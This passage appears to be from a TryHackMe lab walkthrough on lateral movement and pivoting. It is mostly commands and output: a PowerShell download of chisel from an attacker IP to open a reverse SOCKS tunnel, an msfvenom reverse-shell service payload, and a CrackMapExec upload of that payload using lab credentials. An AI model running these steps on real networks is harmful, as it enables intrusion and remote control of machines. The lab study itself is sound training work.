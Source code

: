 		- `schtasks /S TARGET /TN "THMtask1" /DELETE /F`

### Using service

Host chisel

```bash
ln -s /opt/sectools/tunnel/chisel.exe .
python -m http.server 80
```

```bash
chisel server -p 81 --reverse -v
```

Access target:

```bash
sshpass -p 'EZpass4ever' ssh -o "StrictHostKeyChecking no" t1_leonard.summers@thmjmp2.za.tryhackme.com
```

Open socks proxy back to attacker's machine, then forward port `1111` listening on `THMJMP2`'s `0.0.0.0` ' to attacker's localhost on port `1111`

```bash
powershell -ep bypass
(new-object net.webclient).downloadfile("http://10.50.17.90/chisel.exe", "C:\programdata\chisel.exe")
C:\programdata\chisel.exe client 10.50.17.90:81 R:socks 0.0.0.0:1111:127.0.0.1:1111
```

Upload backdoor to `thmiis`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever'
SMB         thmiis.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         thmiis.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=lateralmovement LPORT=1111 -f exe-service -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: rev.exe

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.exe \\Windows\\Temp\\rev.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Copying shell.exe to \Windows\Temp\shell.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] Created file shell.exe on \\C$\\Windows\Temp\shell.exe
```
